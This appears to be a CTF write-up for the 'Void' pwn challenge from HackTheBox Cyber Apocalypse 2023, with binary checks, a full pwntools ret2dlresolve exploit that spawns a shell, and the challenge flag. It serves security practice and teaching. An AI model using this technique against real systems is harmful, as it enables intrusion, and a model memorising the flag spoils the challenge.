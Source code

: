 ```yaml
---
name: Void (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Void (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Void

## Description

> The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.

## Solution

Check file properties and binary protections.

```bash
file void
void: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=a5a29f47fbeeeff863522acff838636b57d1c213, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec --file void
[*] '/home/crystal/Desktop/challenge/void'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

PwnTools script finds offset of 72 for RIP.

[ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) exploit works with little modification.

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe, level='warn')
    p.sendline(payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    warn('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './void'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library, can use pwninit/patchelf to patch binary
libc = ELF("glibc/libc.so.6")

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(100))

# Start program
io = start()

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop = ROP(elf)

rop.raw('A' * offset)
rop.read(0, dlresolve.data_addr)             # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)                 # call .plt and dl-resolve() with the correct, calculated reloc_offset

io.sendline(rop.chain())
io.sendline(dlresolve.payload)                # now the read is called and we pass all the relevant structures in

# Got Shell?
io.interactive()
```

Flag: `HTB{r3s0lv3_th3_d4rkn355}`
